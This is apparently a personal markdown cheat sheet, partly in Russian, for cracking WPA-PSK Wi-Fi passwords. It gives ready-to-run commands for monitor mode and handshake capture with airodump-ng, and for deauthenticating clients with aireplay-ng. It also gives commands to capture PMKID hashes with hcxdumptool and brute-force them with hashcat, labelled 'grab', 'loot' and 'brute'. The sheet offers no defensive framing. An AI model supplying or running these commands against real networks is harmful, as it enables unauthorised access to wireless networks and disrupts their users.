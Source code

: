 # PSK

### Handshake

#### Start monitoring mode

```bash
$ airmon-ng start wlan0
```

#### Monitor networks

```bash
$ airodump-ng wlan0
```

#### Dump target’s traffic

```bash
$ airodump-ng -c CHANNEL --bssid BSSID -w ESSID wlan0
```

#### Deauth clients

```
 aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
```

Where:

* 0 means deauthentication
* 1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously
* a 00:14:6C:7E:40:80 is the MAC address of the access point
* c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
* ath0 is the interface name

### PMKID

[https://habr.com/ru/companies/jetinfosystems/articles/419383/](https://habr.com/ru/companies/jetinfosystems/articles/419383/)

Начните захват PMKID хешей для указанных беспроводных сетей:

`echo HH:HH:HH:HH:HH:HH | sed 's/\\://g' >> filter.txt hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon --filterlist`

install

```bash

sudo apt install hcxtools
```

grab

```bash
sudo hcxdumptool -i wlan0 -w hcx.cap
```

loot

```bash
hcxpcapngtool hcx.cap -o hcx.hc22000
```

check

```bash
hcxhashtool --info=stdout -i hcx.hc22000
```

brute

```bash
hashcat -m 22000 hcx.hc22000 wordlist
```
